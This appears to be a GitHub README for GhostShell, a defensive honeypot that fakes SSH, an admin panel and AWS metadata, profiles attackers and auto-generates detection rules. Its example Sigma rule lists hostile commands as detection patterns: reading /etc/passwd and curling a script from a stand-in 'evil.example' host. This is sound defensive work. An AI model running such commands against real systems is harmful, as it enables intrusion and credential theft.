

<div align="center">


[](https://www.python.org/)
[](LICENSE)
[]()

</div>

Normal honeypots are boring. They log a login, then break the moment an attacker types something unexpected.

I built GhostShell to be the whole fake company instead — SSH, a fake admin panel, fake AWS metadata — all sharing the same fake users, files and credentials. An attacker can poke around for hours and never realise nothing here is real. And while they do, GhostShell is profiling them and turning their own attack into detection rules.

**v2 — more advanced, not just a simple honeypot:** the fake filesystem is now stateful — `mkdir`, `touch`, `echo hello > file.txt`, `rm` actually change the machine, and every attacker gets their own fresh copy. SSH clients are fingerprinted (client version, auth attempts), IPs are enriched with country + ASN, and the profiler now detects attack chains in order — recon to privesc to persistence — not just single keywords. Ships with Docker and tests.

**Docs:** [Usage Guide](docs/USAGE.md) · [Architecture](docs/ARCHITECTURE.md)

---


| Normal honeypot | GhostShell |
|---|---|
| Logs SSH logins | Logs SSH **+ fake admin panel + fake AWS metadata** |
| Scripted shell, breaks on weird commands | **AI fake shell** (local Ollama) answers any command like real Linux |
| Just an IP in a log | **Attacker profile**: bot vs human, skill level, intent |
| No context | Auto-mapped to **MITRE ATT&CK** |
| Watching only | **Honeytokens** — fake AWS keys, `id_rsa`, DB backups that phone home |
| Data dies in a log file | Auto-generates **Sigma + Suricata rules + IOC feed** |

---




---


```bash
git clone https://github.com/zer0k7/GhostShell.git
cd GhostShell

python3 -m venv .venv
.venv/bin/pip install -r requirements.txt
.venv/bin/python run.py
```

| Service | URL |
|---|---|
| SSH honeypot | `ssh admin@localhost -p 2222` — any password works, it is a trap |
| Fake admin panel | http://localhost:8081 |
| Live dashboard | http://localhost:5000 |

Try it like an attacker:

```bash
ssh admin@localhost -p 2222   # password: anything, e.g. hunter123
ls
cat aws_credentials.txt       # honeytoken — this hit is logged
ps aux
uname -a
```

Then open http://localhost:5000 — your session is there, replayable like a terminal recording.

Optional: install [Ollama](https://ollama.com) and run `ollama pull llama3.2:1b` for the AI shell. If Ollama is not running, the rule-based fake shell takes over — nothing breaks.

Or run it in Docker:

```bash
docker compose up --build
```

Tests: `python -m pytest tests/ -q`

---


- Stats: attacker sessions, commands captured, honeytoken hits, unique IPs
- Sessions table with a profile badge — bot, intermediate, or skilled
- Terminal replay of every session, command by command
- MITRE profile per session, with a skill score
- One click turns a session into a Sigma rule + Suricata rule
- IOC feed at `GET /api/ioc`

Example of what it generates from a real session:

```yaml
title: GhostShell — suspicious activity from honeypot attacker 185.220.x.x
status: experimental
logsource:
    product: linux
    service: sshd
detection:
    selection:
        src_ip: '185.220.x.x'
        CommandLine|contains:
            - "cat /etc/passwd"
            - "curl http://evil.example/x.sh"
    condition: selection
level: high
```

---


| Role | What this shows |
|---|---|
| SOC Analyst | You built detections from real attacks, not textbook rules |
| Pen Tester / Red Team | You think like an attacker — and like the defender catching them |
| Security Engineer | Honeypots, deception, MITRE ATT&CK, Sigma/Suricata, Python, Linux |
| Threat Intel | IOC feeds, attacker profiling, TTP extraction |

Resume line: *Built GhostShell, an AI-driven deception platform that profiles live attackers, maps them to MITRE ATT&CK, and auto-generates Sigma detection rules from real attacks.*

---


This is a defensive research tool for your own lab only. Run it on your own machine or VM, on localhost. Never expose ports 2222 / 5000 / 8081 to the internet, never point it at real systems or real people. Every secret in here is fake — never put a real key in it.

---

— zer0k7
